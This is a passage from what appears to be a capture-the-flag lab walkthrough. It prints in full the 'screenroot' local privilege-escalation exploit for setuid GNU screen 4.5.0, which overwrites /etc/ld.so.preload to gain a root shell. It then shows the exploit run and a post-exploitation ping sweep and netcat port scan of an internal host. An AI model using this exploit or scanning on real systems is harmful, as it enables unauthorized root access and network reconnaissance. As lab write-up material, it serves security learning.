 Delete all EOF cat.

``` bash
┌──(Hades㉿192.168.56.110)-[1.4:24.1]~
└─$ cat 41154.sh 
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

> I'M ROOT

``` bash
bash 41154.sh 2> /dev/null
```

![9](img/9.png)

## Post Exploitation

``` bash
root@straylight:/root# bash pingSweeping.sh 
192.168.107.2
192.168.107.1
192.168.107.101
192.168.107.102
```

``` bash
root@straylight:/root# ip=192.168.107.102
root@straylight:/root# nc -nv -w 1 -z $ip 1-65535
(UNKNOWN) [192.168.107.102] 34483 (?) open
(UNKNOWN) [192.168.107.102] 8080 (http-alt) open
(UNKNOWN) [192.168.107.102] 8009 (?) open
root@straylight:/root#
```